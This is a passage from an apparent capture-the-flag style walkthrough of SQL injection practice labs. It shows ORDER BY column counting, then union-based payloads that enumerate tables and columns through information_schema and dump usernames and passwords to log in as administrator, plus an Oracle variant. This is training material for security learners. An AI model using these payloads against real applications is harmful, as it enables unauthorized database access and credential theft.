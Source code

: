 ![](/assets/images/SQLi/Pasted%20image%2020250929214734.png)

`ORDER BY 3` returns a `500 internal server error`

![](/assets/images/SQLi/Pasted%20image%2020250929214748.png)

This means that there are 2 columns that the query is returning.

We then use the following query to return the table names which may have the credentails we want.

```
' UNION SELECT table_name, NULL FROM information_schema.columns -- -
```

As we can see, the table names are returned. `users_fuhvnz` matches the 

![](/assets/images/SQLi/Pasted%20image%2020250929223725.png)

We can now inject this query to retrieve the names of the columns for the `users_fuhvnz` table.

```
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_fuhvnz'-- -
```

We found the `password_mooevo` column.

![](/assets/images/SQLi/Pasted%20image%2020250929223850.png)

We found the `username_lfwbbn` column.

![](/assets/images/SQLi/Pasted%20image%2020250929224004.png)

We can now use this query to find the usernames and passwords of all users.

```
' UNION SELECT username_lfwbbn, password_mooevo FROM users_fuhvnz-- -
```

We found the username `administrator` and the password for it.

![](/assets/images/SQLi/Pasted%20image%2020250929224116.png)

We use the credentials to login, which will solve the lab.

![](/assets/images/SQLi/Pasted%20image%2020250929224153.png)

### 6. SQL injection attack, listing the database contents on Oracle

Payload that worked:

```
' UNION SELECT USERNAME_PFKKLW, PASSWORD_PVZJRH FROM USERS_HAKECP -- - 
```

Explanation:

As before, we populate the `categories` parameter and send the request to repeater.
